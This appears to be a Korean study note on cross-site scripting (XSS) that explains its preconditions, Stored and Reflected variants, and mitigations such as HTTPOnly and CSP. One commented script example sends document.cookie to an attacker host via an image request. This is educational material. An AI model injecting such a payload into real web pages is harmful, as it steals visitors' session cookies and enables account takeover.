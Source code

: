 # XSS

공격자의 입력값이
자바스크립트의 일부로 웹 브라우저에서
실행되는 취약점을 말한다.

## 목차
1. [xss를 성공하기 위해서](#xss를-성공하기-위해서)
2. [XSS with JavaScript](#XSS-with-Javascript)
3. [Stored XSS](#stored-xss)
4. [Reflected XSS](#reflected-xss)
5. [해결방안](#해결방안)

## xss를 성공하기 위해서

XSS공격을 성공하기 위해서는
통상적으로 두가지의 조건이 전제되어야 한다.

    1. 입력 데이터에 대한 충분한 검증 과정이 없어야 한다.
        - 입력한 데이터가 충분한 검증 과정이 없어,
          악성스크립트가 삽입 될 수 있어야 한다.
    
    2. 서버의 응답 데이터가 웹 브라우저 내 페이지에
       출력 시 충분한 검증 과정이 없어야 한다.
       - 웹 브라우저에서 출력 시 필터링에 걸리지 않아야한다.

이들의 대표적인 예시로는 게시판 서비스이며,
이는 게시글이 검증되지 않을 경우 해당 게시글의 이용자들이
악성스크립트가 그대로 실행되기 때문에 위험하다.
```txt
+ 악성스크립트가 전달되는 방식에 따라
  Stored XSS
  Reflected XSS
  등 여러가지로 나뉜다.
  
  하지만 취약점의 원인은 동일하다.
```

## XSS with Javascript

JS는 사용자의 웹 브라우저에서 동적으로 보여주거나,
화면 구성을 변환하거나, 자동으로 버튼을 누르는 등의
작업을 할 때 많이 사용된다.

이런 JS는 웹 브라우저나 웹의 입장에서 상당히 접근성이 높기에
페이지 내용 조작, 위치 주소 변경, 개인정보 유출 등 다양한 방식으로
동작 시킬 수 있기때문에 이는 XSS에 다양하게 이용된다.

이를 작동시키는 대표적인 방법은
```html
    <script>
        alert("hello");
        //hello 문자열 alert 실행

        document.cookie; 
        //현재 페이지의 cookie 리턴

        alert(document.cookie);
        //현재 페이지의 cookie값 alert 실행

        document.cookie = "name=test;";
        //도큐먼트의 쿠키 생성, (key: name, value: test)

                
        new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
        // new Image() 는 이미지를 생성하는 함수이며,
        // src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
        // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키"
        //주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    </script>
```
이 처럼 script태그를 이용하는 방식이 있으며,
특정상황을 이용하는 on* 이벤트들을 이용하는 경우도 있다.

## Stored XSS

이는 악성 스크립트가 서버 내에 저장되어있다가,
사용자가 이 스크립트를 조회하는 순간
발생하는 형태의 XSS이다.

이는 게시판과 같은 형태에서는
불특정 다수에게 공격이 가능하다는 점에서
높은 파급력이 생길 가능성이 존재한다.

## Reflected XSS

이는 악성스크립트가 사용자의 요청 시
전송되는 형태이다.

사용자의 요청 데이터가 서버의 응답에
포함되는 과정에서 악성스크립트가
그대로 출력되어 발생하게 된다.

이는 Stored XSS와는 다르게 사용자의 요청 데이터에
의해 취약점이 발생하기 때문에,
변조된 데이터가 사용자의 요청으로
전송되는 형태를 유도하여야 한다.

가장 간단한 방법은 특정 링크를 유도하는 방식이 있으며,
Click Jacking, Open Redirect등의
취약점과 연계할 수 있다.

대표적인 예로는 게시물들을 조회하기 위해
입력한 데이터에 의한 방식이 있다.
해당요청에 의하여 조회 한 결과를 응답에 출력하는데,
이때 서버가 제대로 방어를 하지않으면
Reflected XSS로 이어질 수 있다.

## 해결방안

  1. [Server-side Mitigations](./Server-side.md)
  2. [HTTPOnly 플래그 사용](./HTPPOnly.md)
  3. [Content Security Policy 사용](./CSP.md)
  4. X-XSS-Protection

**[Home](https://github.com/sunrabbit123/Learn_Web_Security)**